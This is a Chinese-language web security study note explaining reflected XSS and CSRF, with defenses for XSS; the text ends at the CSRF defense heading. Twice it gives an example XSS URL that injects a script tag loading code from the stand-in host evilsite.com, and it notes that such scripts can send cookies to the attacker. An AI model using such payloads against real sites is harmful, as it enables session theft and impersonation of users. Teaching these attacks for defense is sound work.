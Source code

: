 - 反射型 XSS

  反射型 XSS 攻击，发生在当传递给服务器的用户数据被立即返回并在浏览器中原样显示的时候。

  场景：

  常见于`通过 URL 传递参数的功能`，如`网站搜索`、`跳转链接`等

  例如：`http://mysite.com?q=beer<script%20src="http://evilsite.com/tricky.js"></script>`;

  攻击过程(如跳转链接+网站搜索)：

  - 攻击者构造出特殊的 URL，其中包含恶意代码， 例如：`http://mysite.com?q=beer<script%20src="http://evilsite.com/tricky.js"></script>`;
  - 攻击者通过诱导用户点击特殊的 URL，例如：通过邮件、社交网络等方式，诱导用户点击特殊的 URL
  - 用户打开了恶意链接，浏览器请求了特殊的 url，服务器解析后，将`<script src="http://evilsite.com/tricky.js"></script>`返回给浏览器
  - 浏览器解析恶意代码并执行，从而达到攻击的目的

  > 这里需要注意的是，反射型 XSS 攻击，需要用户`主动打开恶意链接`，才能达到攻击的目的

  > 恶意脚本内容包括：
  >
  > - 构造的第三方网站 url 为正规的网站（如淘宝搜索指定产品），所以被攻击者是可以正常打开并显示的
  > - 利用浏览器默认记录了用户的登录状态，所以攻击者可以通过恶意脚本获取到用户当前网站的 cookie 等信息, 然后发送回攻击者自己的服务器
  > - 或冒充用户发送请求

**防御**

- 对用户输入的数据进行过滤和转义
  > 前端过滤无法阻挡攻击者直接向后端发送请求
  > 后端过滤无法保证输入与输出的效果一致
- 设置 httpOnly 属性，禁止 js 访问某些敏感的 cookie
- 设置 CSP（Content Security Policy）策略，限制加载资源的域名
- 设置 X-XSS-Protection 响应头，开启浏览器的 XSS 过滤功能
- 控制浏览器的输出，如避免使用不安全的 innerHTML、outerHTML 等，vue，react 中的 v-html，dangerouslySetInnerHTML 等，替代方案：innerText、textContent（推荐）。

### Q2: CSRF 攻击

CSRF (Cross Site Request Forgery) 跨站请求伪造，是指攻击者通过伪装成受信任用户的请求来利用受信任的网站。

攻击过程

- 用户登录受信任网站 A，并保留了登录凭证（如 Cookie）
- 攻击者引诱用户(如通过邮件发送给了用户)访问了危险网站 B
- 网站 B 向网站 A 发送了一个请求：`http://a.com/act=xx`
- 浏览器会默认携带网站 A 的 Cookie
- 网站 A 并不知道该请求是由攻击者发起的，所以会根据用户的 Cookie 执行该请求
- 攻击完成，攻击者在用户不知情的情况下，冒充用户，让网站 A 执行了自己定义的操作

特点

- 攻击一般发起在`第三方网站`，而不是被攻击的网站。被攻击的网站无法防止攻击发生
- 攻击利用受害者在被攻击网站的登录凭证，冒充受害者提交操作；而不是直接窃取数据
- 整个过程攻击者并不能获取到受害者的登录凭证，仅仅是“冒用”
- 跨站请求可以用各种方式：图片 URL、超链接、CORS、Form 提交等等。部分请求方式可以直接嵌入在第三方论坛、文章中，难以进行追踪

**防御**
